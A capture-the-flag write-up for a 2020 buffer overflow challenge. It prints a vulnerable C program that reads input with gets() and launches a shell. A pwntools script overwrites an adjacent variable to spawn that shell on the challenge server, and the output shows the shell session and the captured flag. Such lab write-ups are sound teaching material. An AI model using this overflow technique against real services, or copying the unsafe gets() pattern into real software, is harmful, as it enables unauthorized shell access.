 # Overflow 3 (250 points)

## Description

looks like buffer overflows aren’t so easy anymore.

nc cyberyoddha.baycyber.net 10003  
## Solution

Here is the file we were given.

```c  
int main(void) {  
	long vuln = 0;  
       char buf[16];

	gets(buf);

	if (vuln == 0xd3adb33f){  
		system("/bin/sh");  
	}  
}  
```

Address is **0xd3adb33f** and buffer size is 16. Now let's open python and
write another script:

```python  
from pwn import *

payload = "A"*28  
payload += p32(0xd3adb33f)  
s = remote("cyberyoddha.baycyber.net", 10003)  
s.sendline(payload)  
s.interactive()  
```  
```shell  
$ python overflow3.py  
[+] Opening connection to cyberyoddha.baycyber.net on port 10003: Done  
[*] Switching to interactive mode  
$ ls  
flag.txt  
overflow3  
$ cat flag.txt  
CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}  
```

Flag: CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}

Original writeup
(https://github.com/holypower777/ctf_writeups/tree/main/cyberYoddhaCTF_2020/overflow).